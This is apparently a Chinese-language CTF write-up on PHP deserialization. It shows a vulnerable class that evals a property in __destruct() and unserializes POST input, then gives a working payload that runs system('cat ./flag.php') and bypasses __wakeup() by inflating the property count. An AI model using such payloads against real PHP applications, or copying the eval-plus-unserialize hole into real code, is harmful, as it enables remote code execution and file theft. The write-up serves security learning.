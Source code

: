 ```php
			$this->keyboard = "";
		}
	}
    
	public function __destruct(){
		//echo $this->keyboard;
		eval($this->keyboard);
	}

}

if(isset($_POST['happy'])){
	unserialize($_POST['happy']);
}
```

一个简单的反序列化，绕过 `__wakeup()` 就好了

```php
<?php
class HaveFun{
	public $Enjoy;
	public $Happy;
	public $keyboard;

	public function __wakeup(){
		if(preg_match('/flag/i', $this->keyboard)){
			$this->keyboard = "";
		}
	}

	public function __destruct(){
		//echo $this->keyboard;
		eval($this->keyboard);
	}
}

$a = new HaveFun();
$a->keyboard = "system('cat ./flag.php');";
echo serialize($a);
//O:7:"HaveFun":3:{s:5:"Enjoy";N;s:5:"Happy";N;s:8:"keyboard";s:25:"system('cat ./flag.php');";}
```

漏洞原理：当反序列化字符串中，表示属性个数的值大于其真实值(这里>3)，则跳过 `__wakeup()` 执行。

`O:7:"HaveFun":4:{s:5:"Enjoy";N;s:5:"Happy";N;s:8:"keyboard";s:25:"system('cat ./flag.php');";}`

漏洞影响版本：

PHP5 < 5.6.25

PHP7 < 7.0.10

传参，拿到flag
